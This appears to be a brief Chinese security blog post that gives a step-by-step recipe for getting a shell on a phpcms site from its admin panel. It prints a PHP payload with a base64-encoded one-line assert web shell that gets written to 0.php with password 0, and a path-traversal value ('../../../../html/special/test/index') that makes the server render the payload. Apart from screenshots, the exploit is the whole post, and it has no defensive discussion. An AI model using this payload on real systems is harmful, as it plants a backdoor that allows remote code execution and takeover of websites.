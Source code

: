 ```yaml
---
title: "phpcms 后台 getshell"
date: 2018-02-02T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


phpcms 后台 getshell

<!--more-->

内容 - 专题 - 添加专题

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464754.jpg)

专题导读

`<?php file_put_contents('0.php',base64_decode('PD9waHAgYXNzZXJ0KCRfUE9TVFswXSk7Pz4=')); ?>`

保存

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464902.jpg)

再添加专题 扩展设置

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464938.jpg)

F12 定位 专题首页

value 要与之前添加的专题名对应

`../../../../html/special/test/index`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517465015.jpg)

保存 网站根目录下生成 0.php 密码 0

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517465041.jpg)